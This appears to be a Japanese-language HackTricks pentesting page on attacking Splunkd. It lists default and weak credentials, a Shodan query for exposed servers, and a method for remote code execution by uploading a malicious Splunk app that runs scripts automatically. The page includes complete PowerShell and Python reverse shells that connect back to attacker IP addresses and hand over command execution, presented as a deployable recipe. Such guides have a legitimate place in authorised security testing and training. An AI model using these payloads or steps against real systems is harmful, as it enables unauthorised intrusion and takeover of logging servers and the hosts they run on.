 # 8089 - Pentesting Splunkd

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **基本情報**

* データ収集、分析、可視化に使用されるログ分析ツール
* セキュリティ監視やビジネス分析で一般的に使用される
* デフォルトポート:
* ウェブサーバー: 8000
* Splunkdサービス: 8089

### 脆弱性ベクトル:

1. 無料版の悪用

* トライアル版は60日後に自動的に無料版に変わる
* 無料版は認証がない
* 管理されない場合、潜在的なセキュリティリスクがある
* 管理者はセキュリティの影響を見落とす可能性がある

2. 認証情報の脆弱性

* 古いバージョン: デフォルトの認証情報 `admin:changeme`
* 新しいバージョン: インストール時に設定された認証情報
* 弱いパスワードの使用の可能性 (例: `admin`, `Welcome`, `Password123`)

3. リモートコード実行の機会

* 複数のコード実行方法:
* サーバーサイドのDjangoアプリケーション
* RESTエンドポイント
* スクリプト入力
* アラートスクリプト
* クロスプラットフォームサポート (Windows/Linux)
* スクリプト入力は以下を実行できる:
* Bashスクリプト
* PowerShellスクリプト
* バッチスクリプト

主な悪用の可能性:

* 機密データの保存
* 無料版の認証の欠如
* リモートコード実行のための複数のベクトル
* システム侵害のためのスクリプト入力の活用の可能性

### Shodan

* `Splunk build`

## RCE

### カスタムアプリケーションの作成

Splunkは、カスタムアプリケーションの展開を通じてリモートコード実行のための高度な方法を提供し、そのクロスプラットフォームスクリプティング機能を活用しています。主要な悪用技術は、WindowsおよびLinuxシステムでリバースシェルを実行できる悪意のあるアプリケーションを作成することにあります。

カスタムアプリケーションは**Python、Batch、Bash、またはPowerShellスクリプト**を実行できます。さらに、**SplunkにはPythonがインストールされているため**、**Windows**システムでもPythonコードを実行できます。

[**こちら**](https://github.com/0xjpuff/reverse_shell_splunk)の例を使用して、[Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py)と[PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1)の例を含む**`bin`**を作成できます。または、自分で作成することもできます。

悪用プロセスは、プラットフォーム全体で一貫した方法論に従います:
```
splunk_shell/
├── bin        (reverse shell scripts)
└── default    (inputs.conf configuration)
```
重要な設定ファイル `inputs.conf` は、スクリプトを有効にするために以下を行います：

* `disabled = 0` を設定
* 10秒の実行間隔を設定
* スクリプトのソースタイプを定義

デプロイメントは簡単です：

1. 悪意のあるアプリケーションパッケージを作成
2. 攻撃マシンでリスナー（Netcat/socat）を設定
3. Splunkのインターフェースを通じてアプリケーションをアップロード
4. アップロード時に自動スクリプト実行をトリガー

サンプルWindows PowerShellリバースシェル：
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()
};
$client.Close()
```
サンプルLinux Pythonリバースシェル:
```python
import sys, socket, os, pty
ip = "10.10.14.15"
port = "443"
s = socket.socket()
s.connect((ip, int(port)))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn('/bin/bash')
```
### RCE & Privilege Escalation

以下のページでは、このサービスがどのように悪用されて特権を昇格させ、持続性を得ることができるかの説明を見つけることができます：

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## References

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{% hint style="success" %}
AWSハッキングを学び、練習する：<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、練習する：<img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
